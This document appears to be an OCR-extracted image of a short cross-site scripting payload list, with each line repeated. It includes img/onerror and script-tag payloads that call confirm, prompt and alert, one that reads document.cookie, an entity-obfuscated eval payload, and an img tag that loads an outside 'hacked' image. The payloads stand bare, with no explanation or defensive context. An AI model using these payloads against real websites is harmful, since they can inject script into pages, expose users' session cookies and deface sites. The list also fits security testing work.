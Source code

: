 
> ‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>	json
>	‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|><plaintext/onmouseover=prompt(1)>
> <script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>	
>	<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
> <script>alert(document.cookie)</script>”>	
>	<script>alert(document.cookie)</script>”>
> <img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>	
>	<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
> <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>	
<img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>
